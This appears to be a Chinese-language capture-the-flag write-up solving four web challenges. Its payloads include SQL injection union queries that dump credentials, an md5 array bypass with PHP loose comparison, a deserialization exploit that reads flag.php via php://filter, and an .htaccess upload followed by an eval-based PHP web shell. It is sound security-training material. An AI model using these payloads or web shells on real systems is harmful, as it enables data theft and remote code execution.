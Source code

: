 # 2024-2-12

## 1

![1](images/1.png)

首先尝试万能密码发现存在注入漏洞

![2](images/2.png)

使用`1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database();#`查询表名

![3](images/3.png)

再用`1' union select group_concat(column_name) from information_schema.columns where  table_name='I0ve1ysq1';#`获取列名

![4](images/4.png)

`1' union select 1,2,group_concat(id,username,password) from geekuser;#`然后直接查看各列找到flag

## 2

![屏幕截图 2024-02-12 174053](images/5.png)

我们可以看见需要两个条件第一个就是md5碰撞，我们可以使用?id[]=1&gg[]=2来绕过md5无法处理数组所以都返回false，第二个我们让passwd=1234567a因为php弱类型比较如果开头是数字那么会将其截取到字母前面比较

![屏幕截图 2024-02-12 173916](images/6.png)

传一下直接成功

## 3

打开网址后直接给了php代码

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}

```

我们可以看见该php会对str参数进行反序列化，我们可以看见会根据op的值决定处理方式，但在比较时使用了强类型比较所以我们可以用数字型2来进行绕过，然后read调用file_get_contents函数进行读取，这里我们就可以使用php的filter伪协议读取我们想要的文件

![2](images/7.png)

我们使用脚本进行序列化

```php
<?php
highlight_file(__FILE__);
	class FileHandler {
        public $op = 2;
        public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
        public $content;
    }
    $a = new FileHandler();
        $b = serialize($a);
        echo($b);
?>

```

![1](images/8.png)

得到flagbase64编码，解码即可

## 4

![1](images/9.png)

是一个文件上传题，我们发现只能上传jpg漏洞，这样我们就可以利用图片马进行攻击，又因为是appache服务器所以我们可以上传htaccess文件来别的后缀名文件内容解析为php程序执行

`AddType application/x-httpd-php .mi`

![2](images/10.png)

这里要将文件类型改为image/jpeg，上传成功htaccess文件，但第一次上传php被发现不能直接上传php代码，根据PHP版本5.6.23将代码改为

`<script language="php">@eval($_POST['id']);</script>`

然后让id= phpinfo();得到

![4](images/11.png)

让id=var_dump(scandir('/'));得到

![3](images/12.png)

让id=var_dump(scandir('/flag'));得到flag

![5](images/13.png)

